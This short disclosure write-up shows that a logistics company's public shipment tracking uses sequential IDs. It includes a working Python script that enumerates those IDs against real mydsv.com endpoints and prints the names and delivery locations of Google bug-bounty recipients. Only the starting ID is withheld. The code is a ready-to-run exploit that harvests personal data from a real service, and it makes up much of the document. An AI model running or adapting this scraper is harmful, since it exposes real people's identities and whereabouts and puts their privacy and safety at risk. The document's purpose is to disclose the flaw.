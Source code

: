 ```yaml
---
title: Leaking the locations of the top Google VRP Bug hunters (WAI)
---
```


When Google gave bug hunters swag they used a logistics company called DSV.
Unfortunately they allow for tracking shipments using an incremental number.

```python
import httpx

requests = 2000
start = <redacted>

def parseSearch(search, id):
    for item in search['data']:
        if item['mainTmsShipmentId'] == str(id):
            return item['randomIdentifier']

def printID(id):
    ShipmentId = str(id)
    Results = httpx.get('https://mydsv.com/app/search/publicShipmentList?q=' + ShipmentId).json()
    RandomId = parseSearch(Results, ShipmentId)
    if not RandomId:
        return
    Shipment = httpx.get('https://mydsv.com/app/search/shipment/' + RandomId).json()
    if 'Bughunter' in str(Shipment['description']):
        print(str(Shipment['signedBy']) + ',' + str(Shipment['delivery']['formattedLocation']).replace(',','') + ' ' + str(Shipment['delivery']['countryCode']))


for i in range(requests):
    printID(start+i)
    if i == 0:
        continue
    printID(start-i)
```

The following code gets their location and the name of who signed for it (if any) by searching the range.

If you're affected by this you can contact the company for data deletion, I don't feel ignoring it is helping to protect people's privacy now or in future use.
I am however keeping the start value secret for privacy through obscurity, in case the attacker doesn't know how to count.
